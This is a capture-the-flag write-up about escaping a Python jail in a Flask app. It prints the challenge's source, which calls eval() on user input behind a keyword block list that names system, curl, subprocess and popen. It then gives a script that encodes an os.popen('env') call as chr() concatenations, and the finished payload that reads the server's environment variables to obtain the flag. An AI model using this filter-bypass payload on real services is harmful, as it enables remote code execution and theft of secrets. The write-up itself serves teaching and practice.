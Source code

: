 
<h1>Break the system, Destroy it</h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture13.PNG>

In this challenge we got a pyjail to break.It has this source code:
```py
#!/usr/bin/python3
from flask import Flask, request, render_template
import string
import subprocess
import re

app = Flask(__name__)


def filter(command):
    blacklist = list(string.ascii_lowercase + string.ascii_uppercase + string.digits)
    blacklist.extend([" ", ".", "(", ")", "+"])

    if re.search(
        "(system)|(curl)|(flag)|(subprocess)|(popen)|(import)|(global)|(class)",
        command,
        re.I,
    ):
        return True
    for c in command:
        if c not in blacklist:
            return True


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "GET":
        return render_template("index.html")
    else:
        command = request.form.get("command", "")
        if command != "":
            if filter(command):
                return "You can't break reality without a command"
            else:
                try:
                    command = eval(command)
                    return str(command)
                except subprocess.CalledProcessError:
                    return "Error"
                except:
                    return "Error"
        else:
            return render_template("index.html")


app.run(host="0.0.0.0", port=8000)
```


i tried alot of methods but this method worked well for me:
```
a="__import__('os').popen('env').read()"
l=[]
for i in a:
    l.append(f"+chr({ord(i)})")

for i in l:
    print(i,end='')
```

and we found the flag in the user enviroment:
```
eval(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(112)+chr(111)+chr(112)+chr(101)+chr(110)+chr(40)+chr(39)+chr(101)+chr(110)+chr(118)+chr(39)+chr(41)+chr(46)+chr(114)+chr(101)+chr(97)+chr(100)+chr(40)+chr(41))
```

Flag: ```securinets{pwn_7h3_w0rld}```
